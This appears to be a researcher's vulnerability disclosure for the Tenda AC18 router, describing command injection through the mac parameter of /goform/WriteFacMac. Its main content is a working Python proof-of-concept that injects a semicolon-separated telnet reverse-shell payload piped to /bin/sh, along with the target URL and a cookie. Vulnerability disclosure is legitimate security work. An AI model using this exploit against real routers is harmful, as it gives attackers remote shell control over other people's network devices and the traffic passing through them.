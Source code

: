 Vendor:Tenda
product:AC18
version:V15.03.05.19 and  V15.03.05.05
type:Arbitrary Remote Command Execution
author:WuShaoZhen
institution:WuShaoZhen@Xiangtan University

## Vulnerability description:
I found an Arbitrary Command Execution vulnerability in the router's web server-- **/bin/httpd** of squashfs filesystem. While processing the **mac** parameters for a post request(when an attacker accesses ip/goform/WriteFacMac), the value is directly passed to doSystem, which causes a RCE. The details are shown below: 

![rce1.1.png](https://github.com/wshidamowang/Router/blob/main/Tenda/AC18/AC18_images/rce1.1.png)


![rce1.2.png](https://github.com/wshidamowang/Router/blob/main/Tenda/AC18/AC18_images/rce1.2.png)


Close the previous command with a semicolon and then cause an Arbitrary Remote Command Execution
## Poc:
```python2
import requests
from pwn import*

ip = "192.168.211.128" #You Tenda AC18 Router IP
url = "http://" + ip + "/goform/WriteFacMac"
print(url)


#payload = ";cmd"
#payload = ";telnet ip port1 | /bin/sh | telnet ip port2"
payload = ";telnet 127.0.0.1:1111 | /bin/sh | telnet 127.0.0.1:2222"


cookie = {"Cookie":"password=12345"}
data = {"mac": payload}
response = requests.post(url, cookies=cookie, data=data)
print(response.text)
print("HackAttackSuccess!")
```
Use the above POC to play shell through telnet You can get a very stable shell
![rce1.3.png](https://github.com/wshidamowang/Router/blob/main/Tenda/AC18/AC18_images/rce1.3.png)
![rce1.4.png](https://github.com/wshidamowang/Router/blob/main/Tenda/AC18/AC18_images/rce1.4%20.png)
